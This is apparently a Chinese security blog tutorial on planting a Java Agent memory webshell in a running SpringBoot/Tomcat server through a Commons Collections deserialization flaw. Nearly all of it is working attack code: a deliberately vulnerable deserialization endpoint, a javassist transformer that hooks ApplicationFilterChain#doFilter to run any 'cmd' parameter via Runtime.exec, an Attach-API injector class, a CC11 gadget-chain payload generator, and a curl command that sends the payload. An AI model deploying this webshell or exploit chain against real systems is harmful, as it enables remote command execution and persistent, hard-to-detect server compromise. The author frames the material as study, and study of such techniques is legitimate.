

# 0x01 Preface

利用Java Agent可以动态修改类的字节码，由于实际环境中都是启动着的JVM，所以premain并不适用，而是利用agentmain来注入内存马。

接下来就得思考要修改哪个类的字节码了，对于这个类应该有如下要求：

* 类中的方法一定会被执行
* 改动后不影响正常业务

前面Filter内存马的Filter组件就挺不错

每次请求到达Servlet前都会经过FilterChain来对请求进行过滤，`ApplicationFilterChain#doFilter`一定会被调用

# 0x02 Env Build

SpringBoot搭建一个Commons Collections反序列化漏洞环境，再通过CC11把内存马打进去

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

```java
package com.example.agent.controllers;

import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RestController;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ObjectInputStream;

@RestController
public class Vul {
    @PostMapping("/cc11")
    public String cc11(HttpServletRequest request, HttpServletResponse response) throws Exception {
        java.io.InputStream inputStream =  request.getInputStream();
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        objectInputStream.readObject();
        return "Hello,World";
    }

    @GetMapping("/hello")
    public String hello(){
        return "hello agent";
    }
}
```

创建Agent：

```java
import java.lang.instrument.Instrumentation;

public class MyAgent {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation inst) {
        inst.addTransformer(new DefineTransformer(), true);
        // 获取所有已加载的类
        Class[] classes = inst.getAllLoadedClasses();
        for (Class clazz : classes) {
            if (clazz.getName().equals(ClassName)) {
                try {
                    // 对类进行重新定义
                    inst.retransformClasses(clazz);
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }
    }
}
```

```java
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {

    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.http.HttpServletRequest req = request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```

```xml
<build>
    <plugins>
      <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-jar-plugin</artifactId>
        <version>3.1.0</version>
        <configuration>
          <archive>
            <manifest>
              <addClasspath>true</addClasspath>
            </manifest>
            <manifestEntries>
              <Agent-Class>MyAgent</Agent-Class>
              <Can-Redefine-Classes>true</Can-Redefine-Classes>
              <Can-Retransform-Classes>true</Can-Retransform-Classes>
              <Can-Set-Native-Method-Prefix>true</Can-Set-Native-Method-Prefix>
            </manifestEntries>
          </archive>
        </configuration>
      </plugin>
    </plugins>
</build>
```

`mvn clean package` 

Evil.class 为用于注入jar的字节码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.File;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.List;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public Evil() throws Exception {
        super();
        try {
            String path = "E:\\MyAgent.jar";
            File toolsPath = new File(System.getProperty("java.home").replace("jre", "lib") + File.separator + "tools.jar");
            URL url = toolsPath.toURI().toURL();
            URLClassLoader classLoader = new URLClassLoader(new java.net.URL[]{url});
            Class MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            Method listMethod = MyVirtualMachine.getDeclaredMethod("list");
            List list = (List) listMethod.invoke(MyVirtualMachine);

            for (int i = 0; i < list.size(); i++) {
                Object o = list.get(i);
                Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName");
                String name = (String) displayName.invoke(o);

                if (name.contains("com.example.agent.AgentApplication")) {
                    Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id");
                    String id = (String) getId.invoke(o);
                    Method attach = MyVirtualMachine.getDeclaredMethod("attach", String.class);
                    Object vm = attach.invoke(o, id);
                    Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent", String.class);
                    loadAgent.invoke(vm, path);
                    Method detach = MyVirtualMachine.getDeclaredMethod("detach");
                    detach.invoke(vm);
                    System.out.println("Agent Inject Success !!");
                    break;
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

发现一个问题：loadAgent只能寻找本地的Agent jar包吗？

* 如果是，那么打Agent内存马还得先上传jar
* 如果不是，能否加载远程的jar包

试了一下，好像真不能加载远程jar。。。。

`Error opening zip file or JAR manifest missing: http://127.0.0.1:9999/MyAgent.jar`

CC11 序列化数据生成：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC11 {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void getPayLoad(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, obj);

        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        outerMap.clear();

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(expMap);
        oos.close();

    }

    public static void main(String[] args) throws Exception {
        byte[] codes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        getPayLoad(codes);
    }
}
```

`curl -v "http://192.168.0.106:8080/cc11" --data-binary "@./ser.bin"`



控制台打印这些说明注入成功！


# 0x03 Trap

刚开始发现内存马没打进去，通过sout大法发现问题出现在`ClassPool pool = ClassPool.getDefault();` ，根据之前的经验感觉可能是jar包里没依赖。

SpringBoot项目添加`javassist`依赖，发现内存马注入成功

原来用Maven的package没有把第三方依赖打进jar包，加入下面的插件就可以带上依赖

打包后有两个jar包，一个带`jar-with-dependencies`标签。

```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-assembly-plugin</artifactId>
    <version>2.4.1</version>
    <configuration>
        <!-- get all project dependencies -->
        <descriptorRefs>
            <descriptorRef>jar-with-dependencies</descriptorRef>
        </descriptorRefs>
    </configuration>
    <executions>
        <execution>
            <id>make-assembly</id>
            <!-- bind to the packaging phase -->
            <phase>package</phase>
            <goals>
                <goal>single</goal>
            </goals>
        </execution>
    </executions>
</plugin>
```

但又有新问题了

`com.sun.tools.attach.AgentLoadException: Agent JAR not found or no Agent-Class attribute`

去看一眼`META-INF/MENIFEST.MF`，果然里面没有`Agent-Class`字段

仿照上一个插件，`<configuration>`下添加`<archive>`元素，指定`manifestEntries`

```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-assembly-plugin</artifactId>
    <version>2.4.1</version>
    <configuration>
        <archive>
            <manifest>
                <addClasspath>true</addClasspath>
            </manifest>
            <manifestEntries>
                <Premain-Class>MyAgent</Premain-Class>
                <Agent-Class>MyAgent</Agent-Class>
                <Can-Redefine-Classes>true</Can-Redefine-Classes>
                <Can-Retransform-Classes>true</Can-Retransform-Classes>
                <Can-Set-Native-Method-Prefix>true</Can-Set-Native-Method-Prefix>
            </manifestEntries>
        </archive>
        <!-- get all project dependencies -->
        <descriptorRefs>
            <descriptorRef>jar-with-dependencies</descriptorRef>
        </descriptorRefs>
    </configuration>
    <executions>
        <execution>
            <id>make-assembly</id>
            <!-- bind to the packaging phase -->
            <phase>package</phase>
            <goals>
                <goal>single</goal>
            </goals>
        </execution>
    </executions>
</plugin>
```

# 0x04 Summary

前面三种内存马（`Listener`、`Filter`、`Servlet`）是传统的Web应用型内存马，基于原生Servlet API实现的动态注册内存马。

而Agent内存马是通过Hook并修改关键方法添加恶意逻辑，需要落地Jar，再通过Attach API动态注入Agent到JVM中。

后面可能还要学习一下中间件型内存马`Valve`、`Upgrade`、`Executor`，探索Tomcat的设计模式，以及框架型内存马`Spring Controller`、`Spring Interceptor`，体会Spring MVC对Servlet API的封装。